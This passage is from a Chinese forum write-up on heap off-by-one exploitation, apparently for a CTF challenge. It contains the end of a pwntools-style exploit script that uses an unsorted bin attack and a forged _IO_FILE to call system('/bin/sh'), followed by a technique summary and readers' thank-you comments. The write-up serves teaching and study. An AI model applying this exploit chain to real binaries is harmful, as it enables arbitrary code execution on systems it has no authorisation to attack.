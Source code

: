 ```

chunk_C2 = malloc()
chunk_A = malloc()

edit(chunk_A, b"Y"*0x50 + p64(0x60)+b'\xc1')
free(chunk_B)

chunk_B = malloc()

vtable = heap + 0x178
edit(chunk_B,p64(0)*10+b'/bin/sh\x00\xb1')
edit(chunk_C,p64(0)+p64(libc.sym._IO_list_all-0x10)+p64(1)+p64(2))
edit(chunk_E,p64(libc.sym.system)+p64(vtable))

malloc()

```

总结
--

总结一下，栈漏洞中的溢出一个字节一般比较难造成很大影响

但是堆中的 off by one 可以覆盖 prev_inuse 位，导致有可能出现两个指针指向一块内存的情况，进一步可以用 unsortedbin leak 泄漏 libc 地址、fastbin 泄漏堆地址、unsortebin attack 结合伪造`_IO_FILE`一系列操作拿到 shell

  

![](https://static.52pojie.cn/static/image/filetype/zip.gif)

[off by one.zip](forum.php?mod=attachment&aid=MjM0ODQ1OHw3OTI4ODNkZnwxNjM3MzI4MjcyfDB8MTU0NjE5Mw%3D%3D)

2021-11-17 15:21 上传

点击文件名下载附件

下载积分: 吾爱币 -1 CB  

6.2 KB, 下载次数: 3, 下载积分: 吾爱币 -1 CB![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)Stomachache  
虽然我看不懂, 但是感觉和漏洞相关的都是很高大上的.![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)ds598177 虽然我看不懂, 但是感觉和漏洞相关的都是很高大上的.![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)YVKG 楼主 six six six![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)DXSN 学习到了 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) fengshengshou 先存后学，好厉害的样子~![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)taitancom 谢谢，看看先！![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)smnra 虽然我看不懂, 但是感觉和漏洞相关的都是很高大上的. ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) 流泪的小白 学习到了，感谢分享 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) jiamingzhang 好评 6666![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)aresxin 楼主好厉害啊![](https://static.52pojie.cn/static/image/smiley/default/13.gif)我简直太菜了 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) Ninol233 学习了学习了，十分感谢大哥的分享